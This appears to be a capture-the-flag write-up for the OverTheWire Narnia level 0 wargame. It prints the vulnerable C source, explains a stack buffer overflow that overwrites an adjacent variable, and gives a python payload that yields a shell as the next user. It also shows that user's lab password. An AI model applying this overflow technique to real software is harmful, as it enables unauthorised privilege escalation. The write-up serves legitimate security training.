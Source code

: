 # username / password
ssh narnia0@narnia.labs.overthewire.org -p2226

narnia0 / narnia0
# Concept
* variable overwrite via buffer overflow
# Method of solve
* the binary's source is this:
```
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
* in the binary, the `val` variable is set to `0x41414141`
* if the `val` variable is set to `0xdeadbeef`, then the `sh` binary is run with the permissions of the file owner, which is `narnia1`
* if we can get access as `narnia1`, then we read their password and get access to the next level
* the `buf` variable, which holds our user input, has a maximum size of 20 characters
* any user input in excess of 20 characters will over the buffer and overwrite other memory addresses
* from testing, we see that even sending 20 characters will overflow a null byte character `00` into the val variable
* so this payload will get us our interactive shell as the `narnia1` user

(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*20 + b"\xef\xbe\xad\xde\n")'; cat) | ./narnia0


narnia0@narnia:/narnia$ (python3 -c 'import sys; sys.stdout.buffer.write(b"A"*20 + b"\xef\xbe\xad\xde\n")'; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
ls
narnia0  narnia0.c  narnia1  narnia1.c  narnia2  narnia2.c  narnia3  narnia3.c  narnia4  narnia4.c  narnia5  narnia5.c  narnia6  narnia6.c  narnia7  narnia7.c  narnia8  narnia8.c
whoami
narnia1


whoami
narnia1
cat /etc/narnia_pass/narnia1
WDcYUTG5ul

